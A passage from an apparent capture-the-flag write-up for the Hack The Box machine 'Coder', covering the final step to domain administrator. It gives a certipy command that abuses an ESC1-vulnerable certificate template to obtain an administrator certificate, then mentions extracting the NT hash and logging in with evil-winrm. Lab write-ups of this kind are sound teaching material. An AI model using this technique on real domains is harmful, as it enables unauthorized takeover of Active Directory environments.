 Afterwards, we can run `certipy` to get a PFX file for the administrator. Keep in mind to do these steps fast because there's a scheduled task resetting the certificates.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -username e.black@coder.htb -password <pass> -ca coder-DC01-CA -target dc01.coder.htb -template esc1 -dc-ip <ip> -upn administrator@coder.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (2976).png" alt=""><figcaption></figcaption></figure>

This would retrieve the administrator PFX for us to use. We can then use this to retrieve the NT Hash for the administrator and login using `evil-winrm`:

<figure><img src="../../.gitbook/assets/image (2196).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Rooted!
